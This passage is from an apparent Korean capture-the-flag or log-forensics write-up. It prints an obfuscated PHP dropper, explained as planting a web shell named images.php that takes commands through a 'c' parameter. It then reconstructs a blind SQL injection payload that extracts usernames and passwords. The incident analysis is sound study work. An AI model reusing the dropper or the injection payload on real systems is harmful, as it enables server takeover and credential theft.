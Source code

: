     // 인코딩된 문자열: 'bmha[tqp[gkjpajpw'
    // 해석된 값: m('bmha[tqp[gkjpajpw') (함수 호출)
    m('bmha[tqp[gkjpajpw')(
        m('%rev+sss+lpih+qthke`w+miecaw*tlt'), 
        m('8;tlt$lae`av,&LPPT+5*5$040$Jkp$Bkqj`&-?w}wpai, [CAP_&g&Y-?')
    ); 
    ?>
    ```
    (이해하기 편하도록 주석을 달아놓았다)

    다음과 같은 php를 업로드하는 코드를 확인할 수 있다

    이 코드에서는 실행된 날짜를 기준으로 암호를 복호화 하여 실행된다

    로그에 나온 날짜를 기준으로 복호화를 실행해보자(복호화할때 사용된 코드는 `decode.py`이다)

    **복호화 결과**

    ![decode](img/decode.png)

    - 결과를 보면 uploads에 `images.php`로 웹쉘을 작성한것을 알 수 있다.

    - `c`라는 변수로 명령어를 받고 페이지는 알수 없도록 `404`로 띄워주는것을 확인할 수 있다.

-----------------------------------
### Level 0/5

```
Q: 공격자에게 탈취된 admin 계정의 PW를 입력해주세요.
문제 파일은 문제 지문에서 확인할 수 있습니다.
```

첫 번째 문제는 탈취당한 `admin` 계정의 비밀번호를 찾는 것이다

전에 sql인젝션을 기반으로 한 brute force-like 공격이 발생한 로그를 보면 값이 참일때는 상태코드가 `500`에 Response Size가 `1192`라는걸 유추할 수 있다

csv 파일에서 보기 편하도록 해당 값들만 분리 해보도록 하자

- filtering_csv.py

    특정 값 또는 컬럼을 필터링하도록 설계된 파이썬 코드이다

    코드가 너무 긴 관계로 코드 부븐은 생략한다

위 코드를 이용해 상태코드 `500`과 Response Size가 `1192`인 부분만 남은것을 보면

```
if(ord(substr((select%20group_concat(username,0x3a,password)%20from%20users),%201,1))=97,%20(select%201%20union%20select%202),%200)
```

이렇게 이름과 비밀번호를 탈취하는 sql쿼리를 확인할 수 있다

좀 더 정리를 해보면

```sql
if(ord(substr((select group_concat(username,0x3a,password)
from users), 1,1))=97, 
(select 1 union select 2),
0)
```
